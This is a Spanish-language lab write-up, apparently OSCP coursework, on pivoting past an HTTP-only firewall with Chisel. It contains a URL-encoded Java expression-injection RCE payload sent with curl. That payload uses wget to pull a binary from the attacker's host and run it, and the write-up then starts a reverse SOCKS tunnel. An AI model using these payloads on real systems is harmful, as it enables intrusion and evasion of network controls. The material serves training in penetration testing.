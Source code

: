 Entonces y a modo de recapitulación ante una solución DPI (Deep Inspection Packet) que sólo admite tráfico HTTP hemos utilizado una herramienta que crea un HTTP Dynamic Remote Port Forwarding y a través de ella hemos conectado a ssh a una máquina de la red interna que incialmente estaba fuera de nuestro alcance.



<br />

**1. Start VM Group 1. Follow the steps in this section, and set up Chisel as a reverse SOCKS proxy. SSH into PGDATABASE01 and retrieve the flag from /tmp/chisel_flag.**

Vamos a repetir los pasos trazados anteriormente. En este caso, utilizamos chisel para obtener RCE (ejecución remota de código) debido a que existe un firewall que sólo admite tráfico HTTP.

De esta forma, utilizamos la vulnerabilidad vista anteriormente para subir primero el binario de chisel y luego ejecutarlo en modo cliente.

Primero preparamos el binario para ser recogido a través de tráfico HTTP con wget:

```
┌──(kali㉿kali)-[~/Documents/OSCP]
└─$ cp $(which chisel) .                      

┌──(kali㉿kali)-[~/Documents/OSCP]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Seguidamente, utilizamos el exploit mencioando anteriormente para introducir el binario y darle permisos de ejecución:

```
wget 192.168.45.244/chisel -O /tmp/chisel && chmod +x /tmp/chisel
```

Lo codificamos en URL y lo adherimos al exploit.

```bash
curl http://192.168.223.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27wget%20192.168.45.221/chisel%20-O%20/tmp/chisel%20%26%26%20chmod%20%2Bx%20/tmp/chisel%27%29.start%28%29%22%29%7D/
```

Y seguidamente, ejecutamos el servidor de chisel en nuestra máquina para crear un reverse shell:

```
┌──(kali㉿kali)-[~]
└─$ chisel server --port 8080 --reverse
2023/07/10 15:04:28 server: Reverse tunnelling enabled
2023/07/10 15:04:28 server: Fingerprint +9exPibrJUkLBEywFxMQl7J8MH7BcOFegwu4rOosecU=
2023/07/10 15:04:28 server: Listening on http://0.0.0.0:8080
```

Y ahora ejecutamos el cliente en la máquina comprometida:

```
/tmp/chisel client 192.168.45.244:8080 R:socks > /dev/null 2>&1 &
```

